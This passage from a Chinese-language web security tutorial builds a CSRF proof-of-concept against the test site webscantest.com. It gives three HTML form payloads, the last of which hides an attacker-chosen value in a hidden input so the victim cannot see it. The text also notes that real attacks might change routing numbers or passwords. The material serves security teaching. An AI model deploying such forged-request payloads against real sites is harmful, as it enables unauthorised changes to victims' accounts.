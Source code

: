 从这里，我们可以推导出构建 CSRF PoC 所需的所有部分。让我们看一下代码，然后逐一分析每个标签和属性背后的原因：

```
<html>
    <form enctype="application/x-www-form-urlencoded" method="POST" action="http://webscantest.com/crosstraining/aboutyou.php">
        <label>fname</label><input type="text" value="William" name="fname">
        <label>nick</label><input type="text" value="Private Mandella" name="nick">
        <label>lname</label><input type="text" value="Mandella" name="lname">
        <label>submit</label><input type="text" value="submit" name="submit">
        <input type="submit" value="http://webscantest.com/crosstraining/aboutyou.php">
    </form>
</html>
```

你可以看到表单的`enctype`属性是直接从拦截的请求中提取的——`method`和`action`属性的 URL 值也是如此。事实上，这个代码片段本质上是提交内容的反向工程表达。我们知道表单创建了什么样的 HTTP 请求——现在我们编写了代码来实现这种行为。

这段代码模仿了原始`webscantest.com`页面上的表单。但在实际的恶意 CSRF 攻击中，攻击者可能并不想简单地触发用户已提交的普通请求的精确复制。更可能的是，他们会根据自己的需要对其进行修改——例如更改财务路由号、修改账户密码或更改其他关键性信息。

在这种情况下，表单字段可能并不是那么容易被利用，但在更危险的情况下，这一原则依然适用。

让我们还是稍微玩一下，将`Private Mandella`晋升为他应得的少将军衔。下面是修改后的代码：

```
<html>
    <form enctype="application/x-www-form-urlencoded" method="POST" action="http://webscantest.com/crosstraining/aboutyou.php">
        <label>fname</label><input type="text" value="William" name="fname">
        <label>nick</label><input type="text" value="Major Mandella" name="nick">
        <label>lname</label><input type="text" value="Mandella" name="lname">
        <label>submit</label><input type="text" value="submit" name="submit">
        <input type="submit" value="http://webscantest.com/crosstraining/aboutyou.php">
    </form>
</html>
```

但是，如果我们的目的是让 CSRF 攻击的目标无意中做出我们想要的操作——例如改变 Mandella 的军衔——那么为什么要让他们看到这个呢？为什么要给用户一个机会查看或操作`nick`输入字段呢？请看以下内容：

```
<html>
    <form enctype="application/x-www-form-urlencoded" method="POST" action="http://webscantest.com/crosstraining/aboutyou.php">
        <label>fname</label><input type="text" value="William" name="fname">
        <label>nick</label><input type="text" value="Private Mandella" name="other-nick">
        <label>lname</label><input type="text" value="Mandella" name="lname">
        <label>submit</label><input type="text" value="submit" name="submit">
        <input type="submit" value="http://webscantest.com/crosstraining/aboutyou.php">
        <input type="hidden" value="Major Mandella" name="nick">
    </form>
</html>
```

在这个最后的代码片段中，我们将`other-nick`输入字段的名称更改为我们的不幸用户期待的`nick`标签，同时将真正的`nick`输入隐藏——它包含了我们的秘密值，即我们认为该用户应得的军衔。
